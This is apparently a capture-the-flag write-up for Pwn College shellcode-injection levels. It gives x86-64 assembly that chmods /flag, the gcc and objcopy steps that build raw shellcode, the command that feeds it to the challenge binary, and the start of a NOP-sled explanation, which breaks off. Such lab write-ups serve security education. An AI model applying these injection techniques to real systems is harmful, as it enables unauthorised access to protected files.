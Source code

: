 # Shellcode Injection

{% hint style="info" %}
You can find the full code for all challenges [here](https://github.com/kunalwalavalkar/Pwn-College/tree/main/Shellcode%20Injection).
{% endhint %}



## level 1

> Write and execute shellcode to read the flag!

We can use `chmod` to change fthe file permissions on the /flag file.

```armasm
# Chmod syscall
lea rdi, [rip + flag]
mov rsi, 4
mov rax, 0x5a
syscall
```

We can compile the program using `gcc`.

```
$ gcc -nostdlib ./shellcode.s -o ./shellcode
```

The `-nostdlib` flag, which tells the compiler not to include the standard C library.

Let's extract the .text section using `objcopy`.

```
$ objcopy --dump-section .text=./shellcode.bin ./shellcode
```

The `--dump-section` is used to extract a specific section from the object file.

We can provide the `./shellcode.bin` file as stdin to the challenge as follows:

```
$ /challenge/babyshell_level1 < ./shellcode.bin
```

We can now read the flag.

```
$ cat /flag
```



## level 2

> Write and execute shellcode to read the flag, but a portion of your input is randomly skipped.

Let's implement a [NOP sled](https://en.wikipedia.org/wiki/NOP\_slide) skips the first `0x800` bytes then.
